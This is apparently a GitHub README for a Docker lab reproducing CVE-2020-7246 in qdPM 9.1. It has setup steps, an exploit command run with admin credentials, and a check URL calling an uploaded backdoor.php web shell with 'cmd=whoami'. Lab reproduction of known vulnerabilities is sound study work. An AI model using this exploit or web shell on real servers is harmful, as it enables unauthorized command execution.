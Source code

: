 # CVE-2020-7246 (qdPM 9.1)

For educational purposes only.

See Reference for the details.


## Run
```
$ git clone https://github.com/arafatansari/QDPMSEC.git
$ cd QDPMSEC
$ docker build -t cve-assignment:ine .
$ docker run -it -p 80:80 cve-assignment:ine
```
## Installation

Checking Environment.
![setup]

Setting up SQL Server.
![setup]

Create Admin login/password.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%203.jpg?raw=true)

In order to exploit the webapp, you need to have atleast one more admin user. Create a new ADMIN user.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/CreateUser.jpg?raw=true)

Add username, email and password. USE THESE CREDENTIALS in the below exploit parameters.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/CreateUser-2.jpg?raw=true)


## Exploit
```
$ python Exploit/exploit.py -url http://{target-ip}/qdpm/ -u test@localhost.com -p password
```

## Check (exploited)
```
$ http://{target-ip}/qdpm/uploads/users/xxxx-backdoor.php?cmd=whoami
```
